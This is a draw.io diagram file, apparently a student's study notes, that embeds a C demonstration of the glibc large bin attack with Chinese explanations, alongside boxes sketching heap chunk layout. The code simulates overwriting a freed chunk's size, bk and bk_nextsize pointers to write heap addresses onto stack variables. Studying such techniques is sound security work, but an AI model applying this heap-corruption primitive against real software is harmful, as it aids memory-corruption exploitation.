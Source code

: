 <mxfile version="23.1.1" type="github">
  <diagram name="第 1 页" id="StGOxZ_9_frYLXdIoDuh">
    <mxGraphModel dx="2331" dy="399" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="g7S3FFpujZysDaOgMtKl-1" value="unsigned long stack_var1 = 0;&#xa;unsigned long stack_var2 = 0;" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="10" y="50" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-2" value="unsigned long *p1 = malloc(0x320);&#xa;fprintf(stderr, &quot;现在，我们在堆上分配第一个大块的地址为：%p\n&quot;, p1 - 2);&#xa;&#xa;&#xa;fprintf(stderr, &quot;然后分配另一个 fastbin 块，以避免在 free() 期间将下一个大块与第一个大块合并\n\n&quot;);&#xa;malloc(0x20);&#xa;&#xa;&#xa;unsigned long *p2 = malloc(0x400);&#xa;fprintf(stderr, &quot;然后，在堆上分配第二个大块的地址为：%p\n&quot;, p2 - 2);&#xa;&#xa;&#xa;fprintf(stderr, &quot;然后分配另一个 fastbin 块，以避免在 free() 期间将下一个大块与第二个大块合并\n\n&quot;);&#xa;malloc(0x20);&#xa;&#xa;&#xa;unsigned long *p3 = malloc(0x400);&#xa;fprintf(stderr, &quot;最后，在堆上分配第三个大块的地址为：%p\n&quot;, p3 - 2);&#xa;&#xa;&#xa;fprintf(stderr, &quot;然后分配另一个 fastbin 块，以避免在 free() 期间将顶部块与第三个大块合并\n\n&quot;);&#xa;malloc(0x20);&#xa;&#xa;&#xa;free(p1);&#xa;free(p2);&#xa;fprintf(stderr, &quot;现在我们释放第一个和第二个大块，它们将被插入未排序的 bin 中：%p &lt;--&gt; %p\n\n&quot;,&#xa;        (void *)(p2 - 2), (void *)(p2[0]));&#xa;&#xa;&#xa;void* p4 = malloc(0x90);&#xa;fprintf(stderr, &quot;现在，我们分配一个大小小于释放的第一个大块的块。这将把释放的第二个大块移动到大型 bin 空闲列表中，使用释放的第一个大块的部分进行分配，并重新将剩余的释放的第一个大块插入未排序的 bin 中：%p\n\n&quot;,&#xa;        (void *)((char *)p1 + 0x90));&#xa;&#xa;&#xa;free(p3);&#xa;fprintf(stderr, &quot;现在，我们释放第三个大块，它将被插入未排序的 bin 中：%p &lt;--&gt; %p\n\n&quot;,&#xa;        (void *)(p3 - 2), (void *)(p3[0]));&#xa;&#xa;&#xa;//------------VULNERABILITY-----------&#xa;&#xa;&#xa;fprintf(stderr, &quot;现在模拟一个可以覆盖释放的第二个大块的“size”以及其“bk”和“bk_nextsize”指针的漏洞\n&quot;);&#xa;fprintf(stderr, &quot;基本上，我们减少了释放的第二个大块的大小，以强制 malloc 将释放的第三个大块插入到大型 bin 空闲列表的开头。为了覆盖堆栈变量，我们将“bk”设置为在 stack_var1 之前 16 字节，并将“bk_nextsize”设置为在 stack_var2 之前 32 字节\n\n&quot;);&#xa;&#xa;&#xa;p2[-1] = 0x3f1;&#xa;p2[0] = 0;&#xa;p2[2] = 0;&#xa;p2[1] = (unsigned long)(&amp;stack_var1 - 2);&#xa;p2[3] = (unsigned long)(&amp;stack_var2 - 4);&#xa;&#xa;&#xa;//------------------------------------&#xa;&#xa;&#xa;malloc(0x90);&#xa;&#xa;&#xa;fprintf(stderr, &quot;让我们再次调用 malloc，这样释放的第三个大块将被插入到大型 bin 空闲列表中。在此期间，目标应该已经被重写了：\n&quot;);&#xa;&#xa;&#xa;fprintf(stderr, &quot;stack_var1 (%p): %p\n&quot;, &amp;stack_var1, (void *)stack_var1);&#xa;fprintf(stderr, &quot;stack_var2 (%p): %p\n&quot;, &amp;stack_var2, (void *)stack_var2);" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-1050" y="650" width="1460" height="1090" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-3" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: left; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; float: none; display: inline !important;&quot;&gt;unsigned long *p1 = malloc(0x320);&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="10" y="120" width="210" height="40" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-4" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="540" y="1200" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-5" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="520" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-6" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="940" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-7" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="740" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-8" value="unsorted" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="400" y="1060" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-1" value="p1" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="170" y="200" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-2" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="300" y="150" width="120" height="160" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-4" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="300" y="150" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-5" value="0x331" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="300" y="180" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.75;exitDx=0;exitDy=0;entryX=0.02;entryY=0.455;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" source="Vp2Y29IAKWfL_nbuRybc-1" target="Vp2Y29IAKWfL_nbuRybc-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-7" value="&amp;amp;stack_var1=0x7fffffffde98" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-140" y="190" width="200" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-8" value="&amp;amp;stack_var1=0x7fffffffdea0" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-140" y="260" width="200" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-9" value="0x55555555b000" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="280" y="120" width="140" height="20" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-10" value="0x55555555b010" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="130" y="185" width="140" height="20" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-11" value="malloc（0x20）&lt;br&gt;防止合并" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-70" y="390" width="90" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-12" value="unsigned long *p2 =malloc(0x400)" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-140" y="470" width="220" height="30" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>

